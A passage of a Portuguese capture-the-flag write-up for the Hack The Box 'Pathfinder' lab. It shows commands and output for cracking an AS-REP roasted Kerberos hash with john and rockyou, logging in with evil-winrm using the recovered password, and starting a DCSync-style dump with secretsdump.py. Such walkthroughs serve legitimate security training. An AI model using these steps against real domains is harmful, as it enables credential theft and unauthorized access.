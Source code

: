 Vamos salvar este ticket no arquivo `hash` e tentar quebrá-lo com o `john`.

```bash
┌──(hastur㉿hastur)-[~/Pathfinder]
└─$ echo '$krb5asrep$23$svc_bes@MEGACORP.LOCAL:73e00be48dcb9672655c008a25665eda$2e43937963ba72aeda130ab7f779f22a9bd1c5526fe6f70ae93c30beeb9266ef5a55c258b0bdca4f86706866d14f0fdff126ca6100e97e7873399243fab54231776f227db65352acec98a8b37fee5e33f1cba334254e60d724cef56a5d481db3fb5e3060274237748dc7bae98b5b1dbdc1a3e6512f9437d4e244ade19d8da1aef42b5a718696f5c4caafc779092d6b7bd03671083569feb0b8789fe16b27afe53afdfc417a347c8db69738c5593ec54f5c2d2e2d86d9fab115475a474940a5edc2876b22b13fe1e60b6642ca01c0830cd11222b0d0292ab62a8bd97732ab04f9778763e1a80ee18267f6914a1580a774' > hash
                                                                                                                                                                                                                                             
┌──(hastur㉿hastur)-[~/Pathfinder]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Sheffield19      ($krb5asrep$23$svc_bes@MEGACORP.LOCAL)
1g 0:00:00:05 DONE (2021-09-07 18:44) 0.1754g/s 1860Kp/s 1860Kc/s 1860KC/s Sherbear94..Shanelee
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
E conseguimos as credenciais `svc_bes:Sheffield19`.

Podemos utilizar o `evil-winrm` para acesso reoto. Ele pode ser instalado com o comando `sudo gem install evil-winrm`.

<img src="/img/htb/htb-pathfinder-5.png">

E conseguimos o shell!!
A flag `user.txt` se encontra no Desktop do usuário.

### Escalação de privilégios vertical

Como nosso usuário tem permissões `GetChangesAll`, podemos utilizar o `secretsdump.py` para conseguir a hash do administrador do DC.

